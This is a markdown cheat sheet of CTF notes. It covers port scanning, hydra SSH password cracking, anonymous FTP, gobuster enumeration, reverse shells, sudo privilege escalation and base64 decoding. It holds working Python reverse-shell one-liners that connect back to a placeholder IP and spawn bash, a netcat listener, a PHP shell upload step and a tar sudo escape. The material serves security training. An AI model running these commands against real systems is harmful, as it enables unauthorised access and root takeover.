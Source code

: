 # CTF-Notes

# How to connect to the vpn

**Use the command:**```openvpn [YOUR .ovpn FILE]```

# How to check if we are properly connected?

**Use the command:**```ping [IP]```

# Get my IP

We can do ```ip addr show tun0``` or ```ifconfig```

# Check if input allows python/python3

We can do ```python -c "print('Hello')"``` or ```python3 -c "print('Hello')"```

# If commands like "cat" are not allowed

We can use ```grep . file``` or ```while read line; do echo $line; done < file```

# PORTS

* **Check for open ports:** ```nmap [IP]``` [Guide](https://www.stationx.net/nmap-cheat-sheet/)

* **Types of ports and how to access them:** <br>
  * **Port 80:** Usually http
  * **Port 22:** Usually ssh
    * You can use the command ```ssh```
      * ```ssh [USERNAME]@[IP]```
      * It will ask for a password:
        * We can try and crack the password like: ```hydra -l [USERNAME | WORDLIST] -P [PASSWORD | WORDLIST] [IP] ssh```
  * **Port 21:** Usually ftp
    * You can use the command ```ftp```
      * ```ftp [IP]```
        * It will ask for logging information but you can sometimes use: ```anonymous``` without password
        * You can retrieve files inside ftp using  ```get```: ```get flag.txt```
        
# URL Directory Enumeration

* You can run the following command to enumerate the directories of a given URL:
  * ```gobuster dir -u "[URL | IP]" -w [Wordlist] ``` [Guide](https://redteamtutorials.com/2018/11/19/gobuster-cheatsheet/)
  
# Reverse Shell:

* If a website allows input or file upload without sanitation it will be possible to upload a reverse shell in order to gain access to the system.
  * **Upload the shell:**
    * File upload shell: <a href="php-reverse-shell.php">PHP shell</a> <- We must modify the IP(Our IP) and the PORT(9999)
    * Reverse shell in input: [More one liner shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
      * If python is allowed: ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
      * If python3 is allowed: ```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'```
  * **Access the shell:**
    * ```nc -lnvp [PORT]``` [Guide](https://linuxize.com/post/netcat-nc-command-with-examples/)
  * **Stabilize the shell:**
    1. Inside the shell ```python -c 'import pty; pty.spawn(\"/bin/bash\")'```
    2. Ctrl+Z
    3. ```stty raw -echo```
    4. ```fg```
    5. ```export TERM=xterm```
                    
# Privilage Escalation

* If you are inside of the vulnerable system you can try to escalate your user privilege as root like:
  * Use ```sudo -l``` to see what types of privileges the user has.
    * If you see ```(ALL : ALL) ALL```, just call ```sudo bash``` and you will become root.
    * Other privileges: [Check for exploits](https://gtfobins.github.io/)
      * tar: ```sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh```
      
# Find all files in system by name.

We can do ```find / -name [FILENAME]``` or ```find /* | grep [FILENAME]```

# Criptography

* **Base 64:** If we see a combination of letters and numbers, it may be Base 64 encoding, the best way to find out if it contains at least one '=' at the end.
  * How to decypher:
    * In linux: ```echo [BASE64 STRING] | base64 -d``` 
    * Online: [Cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true))
